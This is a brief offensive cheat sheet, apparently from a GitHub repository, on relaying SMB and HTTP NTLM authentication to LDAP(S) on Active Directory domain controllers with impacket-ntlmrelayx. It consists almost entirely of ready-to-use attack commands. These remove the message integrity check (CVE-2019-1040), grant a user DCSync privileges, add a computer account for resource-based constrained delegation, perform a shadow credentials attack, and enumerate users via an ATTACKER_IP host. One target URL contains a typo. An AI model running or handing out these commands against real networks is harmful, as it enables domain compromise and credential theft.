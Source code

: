 # SMB to LDAP(S) Relay

## Tools: impacket-ntlmrelayx

# NetNTLMv1/NetNTLMv2

#### 1) Remove mic (CVE-2019-1040 for NetNTLMv2)

#### 2) Relay to LDAP

    impacket-ntlmrelayx --remove-mic --escalate-user USER -t ldap://DC_FQDN -smb2support (Grant user DCSync privileges)

    impacket-ntlmrelayx -t ldaps://DC --remove-mic --add-computer COMPUTER_NAME COMPUTER_PASSWORD --delegate-access -smb2support (Create a computer account, then do a Resource Based Constrained Delegation attack)

    impacket-ntlmrelayx -t ldapL//DC --shadow-credentials --shadow-target 'DC' (Shadow Credentials attack)

    impacket-ntlmrelayx -wh ATTACKER_IP -t ldap://TARGET -l /tmp -6 -debug (Enumerate Users?)

## TIP: Same steps work for HTTP(S) to LDAP Relaying
